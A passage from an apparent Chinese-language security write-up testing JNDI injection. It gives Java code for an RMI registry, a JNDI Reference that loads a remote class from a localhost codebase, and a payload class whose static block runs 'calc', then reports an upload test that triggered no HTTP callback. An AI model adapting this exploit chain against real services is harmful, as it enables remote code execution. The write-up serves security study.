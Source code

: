   
本地启一个 rmi 服务，为 jndi 做准备  
  
rmiserver  
```
public class RMIServe {
    public static void main(String[] args) throws RemoteException, AlreadyBoundException {
        Person person=new Person();
        Registry registry= LocateRegistry.createRegistry(1099);
        registry.bind("person",person);
    }
}
```  
  
  
jndi 绑定对象  
```
public static void main(String[] args) throws NamingException, RemoteException {
        InitialContext initialContext=new InitialContext();
        Reference reference = new Reference("Test","Test","http://localhost:7777/");
        initialContext.rebind("rmi://localhost:1099/IMperson",reference);
    }
```  
  
  
本地 Test 对象，就随便拿了一个弹计算器的对象。  
```
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
public class Test extends AbstractTranslet {
    public Test() {
    }
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (IOException var1) {
            throw new RuntimeException(var1);
        }
    }
}
```  
  
  
在 class 对象中启一个 python 的 http 服务  
  
上传文件，查看是否有 http 访问，发现并没有  
  
![](https://mmbiz.qpic.cn/mmbiz_png/7nIrJAgaibicNdbNOIQ6WsP8Ex2PqBIrVnpvXdQUgxWTyrZEv7OBtMalLI4XQ5LZlx3IXiaPhwG4bMBNHdR7oraibQ/640?wx_fmt=png&from=appmsg "")  
  